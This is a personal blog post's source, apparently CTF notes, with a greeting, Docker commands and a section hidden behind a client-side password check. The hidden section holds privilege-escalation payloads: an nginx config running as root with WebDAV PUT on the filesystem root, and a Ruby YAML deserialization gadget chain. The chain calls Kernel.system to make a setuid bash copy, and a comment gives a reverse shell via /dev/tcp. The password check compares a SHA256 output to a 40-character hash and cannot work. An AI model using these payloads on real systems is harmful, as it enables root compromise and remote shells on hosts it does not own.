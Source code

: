 ```yaml
---
title: "The First"
date: 2023-12-23 22:00:00 +0700
categories: [random]
tags: [random]
image: 
    path: /assets/img/gojo-satoru.jpg
---
```


<h2>Protected Content</h2>

<div id="protected-content" style="display:none;">

## Selamat Datang Cuy!!

ini post-an pertama saya, **K1zuko**.


## Run Docker

```bash
sudo systemctl start docker
docker build .
docker images
docker run -p 1337:1337 {image}
```

## Privilege Escalation
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```
### Ruby
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz # "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```


</div> <input type="password" id="password-input" placeholder="Enter password">
<button id="submit-button">Submit</button>
<script> document.getElementById('submit-button').addEventListener('click', function() { var passwordInput = document.getElementById('password-input').value;
var hashedPassword = CryptoJS.SHA256(passwordInput).toString(); // Hash password yang benar (masukkan hash password yang kamu inginkan)
var correctHash = '5e884898da28047151d0e56f8dc6292773603d0d'; // Ganti ini dengan hash SHA256 dari password kamu
if (hashedPassword === correctHash) { document.getElementById('protected-content').style.display = 'block'; }
else { alert('Password salah!'); } });
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>